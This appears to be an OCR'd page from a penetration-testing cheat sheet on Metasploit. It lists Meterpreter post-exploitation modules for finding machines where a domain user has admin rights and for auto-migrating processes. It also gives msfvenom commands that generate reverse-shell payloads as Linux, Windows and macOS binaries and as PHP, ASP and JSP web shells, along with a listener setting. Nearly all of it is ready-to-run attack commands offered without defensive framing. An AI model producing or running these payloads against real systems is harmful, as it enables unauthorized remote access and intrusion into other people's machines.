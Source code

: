 ```bash
run post/windows/gather/local_admin_search_enum
```

- Idenitfy other machines that the supplied domain user has administrative access to

```bash
set AUTORUNSCRIPT post/windows/manage/migrate
```

Meterpreter Payloads
------------------------------------------------------------

```bash
msfvenom –l
```

- List options

Binaries
------------------------------------------------------------

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f elf > shell.elf
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe
```

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f macho > shell.macho
```

Web Payloads
------------------------------------------------------------

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= -f raw > shell.php
```

- PHP

```bash
set payload php/meterpreter/reverse_tcp
```

- Listener

```bash
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

- PHP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

- ASP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```
